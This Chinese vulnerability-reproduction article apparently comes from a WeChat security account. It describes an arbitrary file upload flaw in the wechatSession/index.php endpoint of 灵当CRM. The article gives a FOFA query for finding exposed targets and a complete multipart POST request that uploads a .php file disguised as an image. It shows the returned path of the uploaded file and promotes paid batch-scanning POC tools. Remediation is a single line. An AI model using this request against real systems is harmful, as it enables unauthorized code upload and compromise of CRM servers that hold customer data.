 #  灵当CRM wechatSession/index.php接口处存在文件上传漏洞 附POC   
2024-10-14更新  南风漏洞复现文库   2024-10-14 23:27  
  
免责声明：  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。  
该文章仅供学习用途使用。  
## 1. 灵当CRM 简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
灵当CRM致力于为企业提供客户管理数字化、销售管理自动化、服务管理智能化、项目管理一体化的个性化CRM行业解决方案。  
## 2.漏洞描述  
  
灵当CRM致力于为企业提供客户管理数字化、销售管理自动化、服务管理智能化、项目管理一体化的个性化CRM行业解决方案,构建全生命周期的数字化管理体系,实现可持续的业绩增长!。灵当CRM wechatSession/index.php接口处存在文件上传漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
灵当CRM  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3bcjVEXLxD6IibndnHHQRd0g57Jx6TuT1BWLfOVE6VsqX2XTRJFcQ4IwTU4o39NOUtZ5CU2ZagP5oQ/640?wx_fmt=png&from=appmsg "null")  
  
灵当CRM wechatSession/index.php接口处存在文件上传漏洞  
## 4.fofa查询语句  
  
body="include/js/ldAjax.js"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/crm/wechatSession/index.php?token=9b06a9617174f1085ddcfb4ccdb6837f&msgid=1&operation=upload  
  
漏洞数据包：  
```
POST /crm/wechatSession/index.php?token=9b06a9617174f1085ddcfb4ccdb6837f&msgid=1&operation=upload HTTP/1.1
Host: xx.xx.xx.xx
User-Agent:Mozilla/4.0(compatible; MSIE 8.0;Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept:*/*
Connection: close
Content-Length: 184
Content-Type: multipart/form-data; boundary=9f57d14038b72104f2b6fafebf51c117

--9f57d14038b72104f2b6fafebf51c117
Content-Disposition: form-data; name="file"; filename="132688.php"
Content-Type: image/jpeg

364994847804
--9f57d14038b72104f2b6fafebf51c117--

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bcjVEXLxD6IibndnHHQRd0g0qoeDGM8pR0EReyG8zRyAzjMvM3hGELdEYzIjXFS5s2lrcyztSOQIg/640?wx_fmt=jpeg&from=appmsg "null")  
  
会返回上传的文件路径：http://xx.xx.xx.xx/crm/storage/wechatsession/2024/10/14/583372.php  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bcjVEXLxD6IibndnHHQRd0g6VOib9Gcib9eRT68nnic8CJiats6NiaicVVJFqicXwlvrStFiaMa6FeiaP5mhbw/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bcjVEXLxD6IibndnHHQRd0gnAqnUjmiaxIgGahy3kwfpqypz6Uic2lLlTMxKZsUm6JDThkfXOUeiaG3A/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bcjVEXLxD6IibndnHHQRd0gxpSKa1tDVEKBJgrhhlGSKubslUnLj6ENAn9zZDIEK0yn52oHVdaAdQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bcjVEXLxD6IibndnHHQRd0gYXNRQmsAkicbFVkj2CA3OggFguqxTEbrLoAoN8Ds6ENzo65yw6hQLQQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bcjVEXLxD6IibndnHHQRd0gnmibPmcMlQXjkoVtjYbZGa4VhlKicTLySjsXcEul8FT4ef7cYicibiaXSlA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bcjVEXLxD6IibndnHHQRd0gKV6Au2T8xhRd2ISWdcS4hsSHJQJ2Zhp5bhbvp1W6iaoBt7xs2Z6yYww/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
  
